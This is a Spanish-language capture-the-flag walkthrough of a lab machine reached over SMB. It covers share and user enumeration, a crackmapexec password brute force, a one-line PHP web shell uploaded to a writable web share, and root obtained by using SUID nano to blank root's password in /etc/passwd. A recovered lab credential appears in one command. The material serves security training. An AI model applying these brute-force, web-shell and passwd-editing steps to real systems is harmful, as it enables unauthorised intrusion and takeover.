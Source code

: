 - Tags: #smb #crackmapexec #sbmclient #smbmap #rpcclient
______
empezamos la maquina con escaneo de puertos utilizando nmap para, verificar los servicios y versiones.

- puerto 80 open
- puerto 139 open
- puerto 445 open 

tenemos una pagina web que investigaremos y veremos que tal, por otro lado tenemos servicios de SAMBA - smb.
____
![](attachment/bd88947deee304eb86af8856d322ab67.png)
____
la pagina web contiene una explicación de que es samba y como funciona, nada relevante que podamos ver a simple vista y si le echamos un vistazo al código fuente tampoco se encontrara nada interesante.

por lo que utilizaremos las herramientas **smbclient** y **smbmap**
para así poder ver si tenemos permisos de lectura o escritura en algún recurso compartido. 

```shell
smbclient -L 172.17.0.2 -N 
```

con este comando podremos ver los recursos compartidos disponibles.
____
![](attachment/4c11842e99da2850e41f297ee3147bea.png)
_____
vemos que tenemos una que se llama **html** pero no nos muestra los permisos y tampoco podemos acceder sin credenciales.

utilizaremos **smbmap** para ver si recopilamos mas información.
___
![](attachment/fe5d542e2fbf16afde77af932ae00571.png)
___
no obtenemos nada, buscando en la pagina de hackstricks y vemos que con la herramienta **rpcclient** podríamos obtener información sobre tal vez usuarios, grupos y usuarios conectados.

```shell
rpcclient -U '' -N 172.17.0.2
```

en caso de que accedamos, aplicaremos el comando `enumdomusers` 
____
![](attachment/ff185b130a3d8ca866995cb8d827d2ce.png)
______
como podemos ver tenemos dos posibles usuarios, por lo que ahora buscaremos la forma de aplicar fuerza bruta para ver si obtenemos la otra credencial o contraseña.

para esto utilizaremos la herramienta **crackmapexec** puesto que se realizo un intento con hydra pero nos arrojaba un error.

la sintaxis para aplicar fuerza bruta con **crackmapexec** es la siguiente.

```shell
crackmapexec smb 172.17.0.2 -u bob -p <diccionario> 
```

obtenemos una credencial para el usuario bob.
____
![](attachment/b3265f211dcef5291e5583cd4d851465.png)
______
ahora si nos conectaremos a los servicios de SAMBA, aplicando el siguiente comando.

```shell
smbclient //172.17.0.2/html -U bob%star 
```

ahora veamos que tenemos dentro.
_____
![](attachment/53746a33243b99920669fc0e918fc163.png)
_____
al parecer es el mismo index.html que nos muestra la pagina de la web, tenemos permisos de escritura en el directorio donde estamos, por lo que podríamos subir un archivo malicioso y acceder al mismo desde la red

crearemos un archivo con extensión php ya que la web interpreta este lenguaje.

```php
<?php
	system($_GET['cmd']);
?>
```

el archivo que subiremos tendrá ese contenido en su interior, para subirlo utilizaremos el comando put.

```shell
put <ruta_del_archivo> <nombre_del_archivo>
```

____
![](attachment/62d4b72d2e9e659587b00b8466c2b948.png)
___
ahora si nos vamos a la pagina y en la url colocamos `cmd.php?cmd=id` nos debería mostrar la salida del programa.
____
![](attachment/cd78c2d7979c82e50b9d17961790ea87.png)
____
es aqui donde verificamos que ha funcionado y ya podemos mandarnos una reverse shell para acceder a la maquina victima.

entramos a la maquina y con el comando `cut -d: -f1 /etc/passwd`listamos los usuarios del sistema, y vemos que se encuentra bob, utilizamos su credencial y pivotamos de usuario.

_____
![](attachment/740ff3602882f334e91cb7837d94b524.png)
___
listando los permisos SUID vemos que nano esta presente, esta vulnerabilidad nos permite modificar el archivo **/etc/passwd**.

```shell
root:x:0:0:root:/root:/bin/bash
```
 
a esa linea del usuario root le quitaríamos la x 

```shell
root::0:0:root:/root:/bin/bash
```

guardamos el archivo y aplicamos un **su root** para obtener root 
